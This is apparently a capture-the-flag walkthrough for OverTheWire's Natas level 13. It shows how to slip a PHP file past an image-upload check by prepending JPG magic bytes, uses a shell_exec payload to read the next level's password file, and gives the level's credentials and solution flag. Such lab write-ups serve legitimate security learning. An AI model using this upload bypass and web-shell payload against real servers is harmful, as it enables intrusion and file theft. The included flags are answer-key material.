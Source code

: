 # Natas Level 13

Access data:

    username: natas13
    password: lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

Connect to the service using basic HTTP auth by replacing the credentials in the link:
    
    http://*USERNAME*:*FLAG*@*USERNAME*.natas.labs.overthewire.org/

This is a variation of the [previous challenge](/OverTheWire.org/NATAS/Natas12/README.md).

The file extension is still controlable but know the webserver tries to verify whether an image file was uploaded or not. Playing around you can find out, that the file extension does not influence the server detection behaviour. Maybe it is checking the [magic bytes](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5) of the file?

Let's try it out. Create a php file like before:

```php 
    <?php
      $result = shell_exec("cat /etc/natas_webpass/natas14");
      print($result);
    ?>
```

But now prepend [magic bytes from a JPG file](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5) (they are: FF D8 FF E0). 

You can do this using a command like this:

```bash
    printf "\xff\xd8\xff\xe0" | cat - natas13.php > payload.php
```

Switch filename in the form again from .jpg to .php and upload _payload.php_ and you should get to your flag!


<details>
  <summary>Solution</summary>
  Flag: qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
</details>